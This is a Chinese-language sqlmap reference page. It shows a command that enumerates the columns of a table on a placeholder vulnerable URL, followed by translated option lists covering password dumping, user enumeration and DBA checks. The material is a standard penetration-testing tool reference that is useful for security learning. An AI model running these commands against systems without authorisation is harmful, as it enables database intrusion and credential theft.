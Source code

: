#### 列出表中字段

```
C:\Python27\sqlmap>python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" -D tourdata -T userb --columns
```

sqlmap详细命令：

```

–is-dba 当前用户权限（是否为root权限）
–dbs 所有数据库
–current-db 网站当前数据库
–users 所有数据库用户
–current-user 当前数据库用户
–random-agent 构造随机user-agent
–passwords 数据库密码
–proxy http://local:8080 –threads 10 (可以自定义线程加速) 代理
–time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）
```

Options（选项）：

```
–version 显示程序的版本号并退出
-h, –help 显示此帮助消息并退出
-v VERBOSE 详细级别：0-6（默认为1）
Target（目标）：
以下至少需要设置其中一个选项，设置目标URL。

-d DIRECT 直接连接到数据库。
-u URL, –url=URL 目标URL。
-l LIST 从Burp或WebScarab代理的日志中解析目标。
-r REQUESTFILE 从一个文件中载入HTTP请求。
-g GOOGLEDORK 处理Google dork的结果作为目标URL。
-c CONFIGFILE 从INI配置文件中加载选项。
Request（请求）：
这些选项可以用来指定如何连接到目标URL。

–data=DATA 通过POST发送的数据字符串
–cookie=COOKIE HTTP Cookie头
–cookie-urlencode URL 编码生成的cookie注入
–drop-set-cookie 忽略响应的Set – Cookie头信息
–user-agent=AGENT 指定 HTTP User – Agent头
–random-agent 使用随机选定的HTTP User – Agent头
–referer=REFERER 指定 HTTP Referer头
–headers=HEADERS 换行分开，加入其他的HTTP头
–auth-type=ATYPE HTTP身份验证类型（基本，摘要或NTLM）(Basic, Digest or NTLM)
–auth-cred=ACRED HTTP身份验证凭据（用户名:密码）
–auth-cert=ACERT HTTP认证证书（key_file，cert_file）
–proxy=PROXY 使用HTTP代理连接到目标URL
–proxy-cred=PCRED HTTP代理身份验证凭据（用户名：密码）
–ignore-proxy 忽略系统默认的HTTP代理
–delay=DELAY 在每个HTTP请求之间的延迟时间，单位为秒
–timeout=TIMEOUT 等待连接超时的时间（默认为30秒）
–retries=RETRIES 连接超时后重新连接的时间（默认3）
–scope=SCOPE 从所提供的代理日志中过滤器目标的正则表达式
–safe-url=SAFURL 在测试过程中经常访问的url地址
–safe-freq=SAFREQ 两次访问之间测试请求，给出安全的URL
Enumeration（枚举）：
这些选项可以用来列举后端数据库管理系统的信息、表中的结构和数据。此外，您还可以运行
您自己的SQL语句。

-b, –banner 检索数据库管理系统的标识
–current-user 检索数据库管理系统当前用户
```
